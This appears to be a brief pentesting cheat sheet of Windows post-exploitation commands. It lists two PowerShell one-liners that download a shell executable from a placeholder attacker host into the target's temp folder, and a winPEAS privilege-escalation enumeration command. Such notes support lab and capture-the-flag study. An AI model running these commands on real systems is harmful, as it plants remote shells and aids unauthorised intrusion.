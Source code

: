 # Usefull Commands

## Download file

```bash
$ powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"

$ powershell -c "invoke-WebRequest -Uri 'http://<ip>:<port>/shell.exe' -OutFile 'C:/Windows/Temp/shell.exe'"
```

```bash
$ winpeas.exe cmd > output.txt
```
